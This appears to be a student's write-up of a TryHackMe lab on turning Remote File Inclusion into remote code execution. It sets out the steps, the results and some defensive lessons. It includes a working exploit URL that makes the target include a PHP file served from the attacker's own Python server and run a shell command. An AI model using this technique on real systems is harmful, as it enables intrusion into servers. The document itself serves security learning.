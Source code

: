 ﻿# Lab Title: RFI Lab #6 - Remote File Inclusion & RCE
Date: 2025-09-10

## Target
- TryHackMe LFI room (Lab #6 - Playground)

## Commands / Steps
1. Created a malicious file `evil.txt` with PHP code:
   <php ...payload omitted... >


2. Hosted the file locally with Python: python3 -m http.server 8000
3. Crafted the RFI exploit URL to include the malicious file: http://10.10.227.16/playground.php?file=http://10.10.219.135:8000/evil.txt&cmd=hostname

4. Sent request with cmd=hostname to confirm Remote Code Execution (RCE). 

## Results
- The server executed the hostname command.
- Output revealed the victim machine’s hostname (proving code execution).

## Screenshots
- ![Lab #6 output](../screenshots/2025-09-10-rfi-lab6.png)

## What I Learned
- RFI lets an attacker load remote files into the server’s process.
- By injecting PHP code, I turned LFI into RCE.
- The hostname command proves execution happens on the target, not the attacker.
- Defense: disable allow_url_include in PHP, validate input strictly, and use whitelists for includes.